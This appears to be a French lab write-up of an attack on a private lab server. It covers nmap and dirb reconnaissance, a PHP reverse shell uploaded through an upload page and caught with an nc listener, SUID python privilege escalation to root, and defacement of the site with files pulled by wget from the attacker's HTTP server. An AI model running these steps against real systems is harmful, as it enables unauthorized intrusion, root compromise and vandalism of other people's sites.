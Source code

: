 # Attaque depuis kali:

## Reconnaissance

> nmap 192.168.60.0/24

On trouve un serveur http sur le port 80 sur 192.168.60.10

Visite du site web via le navigateur, on trouve notamment que le serveur utilise php

> dirb http://192.168.60.10/

> dirb http://192.168.60.10/ -X .php

Avec dirb on a trouvé les pages /upload.php et /uploads

## Reverse shell

Upload de shell.php depuis /upload.php

Attente du reverse shell depuis kali:

> nc -nlvp 9001

Ouvrir shell.php dans /uploads

## Escalade de privilèges

Trouver les fichiers avec SUID d'activé:

> find / -perm -u=s -type f 2>/dev/null

Utiliser python pour l'escalade:

> cd /usr/bin

> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Vérifier qu'on est root:

> whoami

## Défiguration

Depuis le reverse shell:

> cd /var/www/html

Vérifier qu'on est dans le bon dossier:

> ls 

Depuis un nouveau terminal kali, depuis le dossier server sur le bureau, lancher un serveur pour transférer les fichiers:

> python -m SimpleHTTPServer

Depuis le reverse shell, supprimer index.html, puis télécharger les fichiers nécessaires à afficher la nouvelle page d'accueil:

> rm index.html

> wget http://192.168.60.11:8000/index.html

> wget http://192.168.60.11:8000/index.html
